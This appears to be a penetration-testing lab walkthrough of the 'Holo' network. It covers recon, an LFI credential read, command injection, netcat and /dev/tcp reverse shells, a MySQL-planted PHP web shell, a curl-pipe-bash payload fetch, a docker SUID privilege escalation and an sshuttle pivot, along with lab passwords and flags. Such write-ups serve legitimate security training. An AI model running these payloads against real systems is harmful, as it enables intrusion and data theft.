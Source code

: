# Initial Recon
Scope of engagement 10.200.110.0/24 and 192.168.100.0/24
## Nmap
Enumerating public facing IP's
See which IP's are up:
```bash
nmap -n 10.200.110.0/24
```
10.200.110.33 and 10.200.110.250
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 05:44 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap scan report for 10.200.110.250
Host is up (0.28s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh

Nmap done: 256 IP addresses (2 hosts up) scanned in 119.11 seconds
```
Saved as External-network-scan.nmap

Run scan on 10.200.110.33
```bash
nmap -sC -sV 10.200.110.33
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-11 06:18 EDT
Nmap scan report for 10.200.110.33
Host is up (0.28s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:c0:f1:4d:49:de:5e:ec:14:51:dc:c5:75:18:aa:94 (RSA)
|   256 53:bb:46:12:93:e1:ab:09:90:a5:ef:54:87:e8:40:44 (ECDSA)
|_  256 9f:94:30:aa:76:42:10:0c:c2:0a:ae:a6:a1:48:00:91 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-robots.txt: 21 disallowed entries (15 shown)
| /var/www/wordpress/index.php 
| /var/www/wordpress/readme.html /var/www/wordpress/wp-activate.php 
| /var/www/wordpress/wp-blog-header.php /var/www/wordpress/wp-config.php 
| /var/www/wordpress/wp-content /var/www/wordpress/wp-includes 
| /var/www/wordpress/wp-load.php /var/www/wordpress/wp-mail.php 
| /var/www/wordpress/wp-signup.php /var/www/wordpress/xmlrpc.php 
| /var/www/wordpress/license.txt /var/www/wordpress/upgrade 
|_/var/www/wordpress/wp-admin /var/www/wordpress/wp-comments-post.php
|_http-title: holo.live
|_http-generator: WordPress 5.5.3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
2 ports open.

## Port 80 enumeration
CME is wordpress running version 5.5.3
Title of the page is holo.live
The page pulls images from www.holo.live
Scan for more subdomains.
```bash
ffuf -u http://10.200.110.33 -H "Host: FUZZ.holo.live" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -fl 157
```
3 domains:
- www
- dev
- admin
Running dir busting on all three sub domains.
www:
Nothing intresting just a wordpress install

dev:
admin.php, img.php, login.php

admin:
robots.txt
	/var/www/admin/supersecretdir/creds.txt
	the page gives a 403 error but is still there.

# Port 80 Exploitation
On the dev domain there is the img.php which can load in a file.
Checking for LFI.
```bash
curl http://dev.holo.live/img.php?file=../../../../../../../../etc/passwd
```
This returns the file.
Which means you can read out the creds.txt
```txt
I know you forget things, so I'm leaving this note for you:
admin:DBManagerLogin!
- gurag <3
```
Logging into the admin subdomain there is a dashboard.php.
Use the LFI to get the source code.
Quick grep for a parameter to check for RCE
```bash
cat dashboard.php | grep GET
```
This reveals a cmd variable.
which gives RCE.
try a reverse shell with the payload
```bash
nc -e /bin/bash 10.50.107.132 9001
```
This gives a shell on the box.
Stabilise the shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

User flag:
```
HOLO{175d7322f8fc53392a417ccde356c3fe}
```
# Foothold on 10.200.110.33
First thoughts are the computer name is random and it is linux. Docker? yep
find the groups on the docker instance.
```bash
cat /proc/1/cgroup
```
output:
```txt
12:blkio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
11:devices:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
10:memory:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
9:cpuset:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
8:perf_event:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
7:cpu,cpuacct:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
6:hugetlb:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
5:pids:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
4:rdma:/
3:freezer:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
2:net_cls,net_prio:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
1:name=systemd:/docker/b62a87548823a43de8309f7a906b15db3fe08fae6fb63e43aabb21a71c6c2592
0::/system.slice/containerd.service
```

Check network config and do a ping sweep on the gatway
```bash
ifconfig
nc -zv 192.168.100.1 1-65535
```
Output:
```txt
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 33060 (?) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 8080 (http-alt) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 3306 (mysql) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 80 (http) open
ip-192-168-100-1.eu-west-1.compute.internal [192.168.100.1] 22 (ssh) open
```
port 8080 seems to be a second website.
3306 is a sql database.

Check for the db_connect.php file in the webserver on the docker container.
read the file.
```txt
define('DB_SRV', '192.168.100.1');
define('DB_PASSWD', "!123SecureAdminDashboard321!");
define('DB_USER', 'admin');
define('DB_NAME', 'DashboardDB');
```
connect to the database.
```bash
mysql -u admin -p -h 192.168.100.1
```

Internal sql credentials:
admin:!123SecureAdminDashboard321!
gurag:AAAA

inject a revshell into the sql database to break out of the docker container
```sql
mysql> select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```
```bash
curl 192.168.100.1:8080/shell.php?cmd=id
```

now to get a reverse shell on the box.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.50.107.132/9002 0>&1
```
host it an set up a listener then url enconde and pass as the cmd parameter of the webshell.
```bash
curl 'http://192.168.100.1:8080/shell.php?cmd=curl%20http%3A%2F%2F10.50.107.132%3A80%2Fshell.sh%7Cbash%20%26'
```
Now a shell on 10.200.110.33
```txt
HOLO{3792d7d80c4dcabb8a533afddf06f666}
```

Priv esc.
check for SUID bit
```
find / -perm -u=s -type f 2>/dev/null
```
docker has a SUID priv esc.
```
sudo install -m =xs $(which docker) .

./docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
instead of mounting alpine mount the container running ubuntu.
## Persistence
Cracking the hash in /etc/shadow gives ssh creds
linux-admin:linuxrulez (10.200.x.33)

# NOTE
different sessions so ips might be different.

# Pivot with sshuttle
```bash
sshuttle -r linux-admin@10.200.111.33 10.200.111.0/24
```
# Internal website on 10.200.111.31
Can enumerate usernames via the password reset page.
gurag is valid. It leaks his reset token and usign that it auths into the page which is a file upload.

Make a php revshell and upload it. fuzz the website for directories.

